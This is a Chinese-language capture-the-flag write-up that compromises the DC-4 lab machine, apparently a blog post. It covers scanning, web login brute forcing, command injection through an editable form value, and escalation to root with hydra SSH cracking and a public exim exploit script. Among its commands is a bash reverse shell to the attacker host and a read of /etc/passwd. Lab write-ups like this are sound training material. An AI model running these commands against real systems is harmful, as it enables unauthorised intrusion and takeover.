# 前言

靶机：`DC-4`，IP地址为`192.168.10.11`

攻击：`kali`，IP地址为`192.168.10.2`

都采用`VMWare`，网卡为桥接模式

对于文章中涉及到的靶场以及工具，我放置在公众号中，在公众号发送`dc0104`即可获取相关工具

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.10.1/24`



# 信息收集 

## 使用nmap扫描端口



## 网站信息探测

访问80端口默认界面，发现是一个登录的界面，查看页面源代码，确定脚本语言为`php`



尝试进行目录扫描，可使用工具很多，如`gobuster、dirsearch、dirb、dirbuster、ffuf`等工具

前面两个在`kali`中可直接进行安装，后两个是`kali`中自带的

```shell
gobuster dir -u http://192.168.10.11 -w /usr/share/wordlists/dirb/big.txt -x php,html,txt,md -d -b 404,403
```



发现最终还是以`index.php`为主，那么尝试登录后测试数据包的形态，通过浏览器的开发者工具进行简单的了解，该请求，也就是该`form`表单是发送到`/login.php`的，并且是`post`请求，请求体中的数据只有简单的`username和pasword`，当然这里也可以尝试使用`burpsuite`进行抓取数据包进行查看


# 漏洞寻找

测试在这两个参数中，是否具有注入的利用点

这里采用`ffuf`进行测试

```shell
ffuf -c -w /usr/share/wordlists/wfuzz/Injections/All_attack.txt -u http://192.168.10.11/index.php -X POST -d "username=FUZZ&password=FUZZ" -fs 506
#-X 指定http请求方式
#-d 也就是data的意思，就是数据
#-fs  过滤原本界面的大小数据，一般登录成功或失败，至少都不会是初始数据大小
#这里的字典，是wfuzz中的注入字典，也是挺多的
```

但是这里测试发现，没有，那么可能无注入点，尝试弱密码测试



当然在`burpsuite`也是可以，下面采用`burp`测试

因为`kali`默认安装的是社区版，虽然该版本也是可以使用并且成功，不过对于社区版的字典选择可以选择`kali`中自带的`rockyou.txt`该字典正是因为太大，所以默认都是压缩状态，想要使用，需要解压，在目录`/usr/share/wordlists/rockyou.txt`中

主要就是因为本人电脑的原因，`kali`在虚拟机下，执行`burp`会很卡，所以使用`burp`的方法采用在物理机上

当然如果没有配置`burp`的话，可以参考我之前写的文章进行查看`https://mp.weixin.qq.com/s/McpzofXdlrAaR625-fUTcw`

抓取登录时的数据包，在`burp`中发送到`intruder`模块进行爆破，fuzz测试



从结果来看，并无有价值的信息，表示可能不存在注入点，或者说字典中可能有遗漏，这里先以不存在来说

然后测试弱口令，因为网站的默认界面是`admin information systems login`，所以，猜测，必然有`admin`

先针对这个进行密码爆破，因为这里并没有对登录进行限制，所以可以一直爆破，先使用`burp`专业版的内置字典进行测试，若无，再强化字典进行进一步的测试



这里爆破结束，进行数据长度的排序时，发现有一个数据包明显的高于其他数据包，查看后，发现在响应数据包中，提到了一串字符，你当前已经登录



那么就获取到了用户名`admin`和密码`happy`

然后登录网站进行测试，这里第一遍登录的时候，不知道为什么没有反应，再登录一次，成功进入



# 漏洞利用

点击`command`，发现有趣的东西，这里有三个选项，每一个代表一种命令



使用浏览器开发者工具，查看这里的数据，发现在这里可以看到每一个选项的值，也就是命令。

尝试对其中一个进行测试，比如，列出文件，这里默认的是`ls -l`，那么修改为`ls -la`来进行测试



这就表示，其实网站是通过接收这里的`value`值去在其机器中执行相关命令，然后返回数据到网站

那么，就可以通过修改这里的`value`值，来尝试进行一个反弹`shell`

尝试把其中一个选项的`value`修改为下面的代码

```shell
/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'
```

然后在`kali`中开启监听9999端口

```shell
nc -lvvp 9999
```

这时候，通过执行对应选项，可以看到反弹成功




# 提权

查看当前靶机内的用户

```shell
ls -l /home
cat /etc/passwd | grep /bin/bash
```



使用`find`寻找具有SUID权限的文件，发现`sudo`，测试`sudo`发现当前不行

```shell
find - perm -4000 -print 2>/dev/null
```



## 提权至jim用户

不过看到在`/home/jim`下，有一个SUID权限文件，去查看，发现该脚本虽然具有SUID权限，但是所有者是`jim`，不过在观察时，发现该目录下，有一个备份文件夹，至少名称是这样的，查看该目录下的文件，发现一个密码本



既然是在用户`jim`下，就使用这个密码本对其用户进行`ssh`爆破，当然，需要把这个密码本中的内容，复制到`kali`中，过了一会就发现成功获取到一组密码

```shell
hydra -l jim -p pass.txt 192.168.10.11 ssh
```



用户名`jim`和密码`jibril04`，尝试登录`ssh`，登录成功



## 提权至root用户

使用`find`寻找具有SUID权限的文件，发现`exim4`



再查看当前目录下的一个文件，之前没有看，发现是一个邮件信息，但是其中包括了`exim`的版本信息



再次执行命令，查看确切的版本信息

```shell
/usr/sbin/exim4 --version
```



尝试使用`searchsploit`搜索有无相关提权漏洞

```shell
searchsploit exim 4.8 privilege
```



把脚本复制到`kali`当前目录下



查看脚本内容，里面有脚本用法，必须是本地，也就是需要传送到靶机内，并且该脚本有两种执行方法

```shell
./46996.sh -m setuid

./46996.sh -m netcat
```



在`kali`中使用`scp`命令，传输文件，因为已经登录了`ssh`，所以，一般`scp`都是可用的

传输脚本到靶机的`/tmp`目录下

```shell
scp ./46996.sh jim@192.168.10.11:/tmp
```

在靶机内切换到`/tmp`目录，然后执行其中的一种方式，发现提权成功



再测试另一种方式，都是可以提权成功的

